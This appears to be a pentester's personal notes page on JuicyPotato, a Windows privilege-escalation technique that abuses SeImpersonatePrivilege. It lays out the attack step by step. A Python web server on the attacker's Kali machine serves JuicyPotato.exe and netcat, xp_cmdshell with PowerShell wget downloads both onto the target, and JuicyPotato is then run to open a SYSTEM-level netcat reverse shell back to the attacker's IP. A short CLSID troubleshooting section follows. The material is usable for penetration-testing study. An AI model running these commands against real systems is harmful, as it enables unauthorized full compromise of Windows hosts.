

repository: amandaguglieri/hackinglife · page: juicypotato/index.html · generator: mkdocs

---
title: JuicyPotato
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
---
# 🥔 JuicyPotato


!!! abstract "But It's a Potato!"
	**Remarkable explanation about the Potato world and what is going under the hood**: [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)


!!! note "Hot binaries!"
	My potato compiled binaries: [https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeImpersonatePrivilege](https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeImpersonatePrivilege)



If the machine is **>= Windows 10 1809 & Windows Server 2019** - Try **Rogue Potato**  

If the machine is **< Windows 10 1809 < Windows Server 2019** - Try **Juicy Potato**


Escalating privileges to `SYSTEM` level when the command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed for our user.

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) and its [variants](https://github.com/decoder-it/lonelypotato) leverages the privilege escalation chain based on [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) having the MiTM listener on `127.0.0.1:6666` and when you have `SeImpersonate` or `SeAssignPrimaryToken` privileges. During a Windows build review we found a setup where `BITS` was intentionally disabled and port `6666` was taken.

Download from: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)


**1.** Upload the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. 

```
# Serve the content from your kali attacking machine
python3 -m http.server 80

# If we have for example a myssql connection 
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/JuicyPotato.exe -outfile JuicyPotato.exe"
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
```


**2.**  Set a listener in your attacking machine:

```
nc -lnvp 1234
```

**3.** Run JuicyPotato:

```
# From the myssql connection
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe $IPattackingMachine 1234 -e cmd.exe" -t *

# From a terminal run by an user with SeImpersonatePrivilege:
.\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe  $IPattackingMachine 1234 -e cmd.exe" -t *
```

## Troubleshooting CLSID

- In Windows, a **CLSID** (Class ID) is a **unique identifier** (GUID format) for a **COM object**.
- JuicyPotato (and similar exploits) work by abusing **specific COM services** that:
    
    - Run as SYSTEM
    - Allow you (the user) to trigger them
    - Are vulnerable to impersonation (they delegate their privileges poorly)
        
- If the COM service doesn't behave correctly (wrong CLSID), you get errors like `recv failed with error: 10038`.


→ **So the choice of CLSID is critical**: **Some CLSIDs will work; others will not depending on your OS and what services are running.**
